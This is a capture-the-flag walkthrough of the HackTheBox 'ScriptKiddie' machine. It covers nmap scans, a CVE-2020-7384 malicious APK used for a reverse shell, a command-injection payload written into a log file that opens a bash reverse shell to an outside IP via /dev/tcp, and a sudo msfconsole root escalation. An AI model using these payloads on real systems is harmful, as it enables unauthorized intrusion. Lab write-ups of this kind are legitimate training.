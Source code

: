 # [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

```bash
nmap -p- --min-rate 10000  10.10.10.226 -Pn
```

![Alt text](img/image.png)

After knowing that, (22,5000) ports are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,5000 10.10.10.226 -Pn
```

![Alt text](img/image-1.png)


Once, on website, we see that there is interactive shell of 'msfconsole' to search exploits via `searchsploit` command.

![Alt text](img/image-2.png)


Let's try to find exploit that abuse this.
I find such [thing](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)


It is exploit which we can access and generate .apk file 'exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection'

But, it doesn't work. For this, we can use this [exploit maker](https://github.com/nikhil1232/CVE-2020-7384)

![Alt text](img/image-3.png)



Now, we submit our 'exploit.apk' into webserver to get reverse shell.

![Alt text](img/image-4.png)


Hola!  we got reverse shell.

![Alt text](img/image-5.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-6.png)



user.txt

![Alt text](img/image-7.png)


I find vulnerable 'app.py' file on '/home/kid/html' directory that can be do CMD injection.

![Alt text](img/image-8.png)

If I add CMD injection into 'srcip' variable, I can do.

And this '**hackers**' file on '**logs**' directory then parsed as **`pwn`** user.

Let's add reverse shell into 'hackers' file which is located '/home/kid/logs/hackers' directory.

```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.4/1338 0>&1' # ."  > /home/kid/logs/hackers
```

![Alt text](img/image-9.png)


We got reverse shell as '**pwn**' user.

![Alt text](img/image-10.png)


Let's check privileges of '**pwn**' user.

![Alt text](img/image-11.png)

Let's abuse this by following below commands.

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
irb
system("bash")
```

root.txt

![Alt text](img/image-12.png)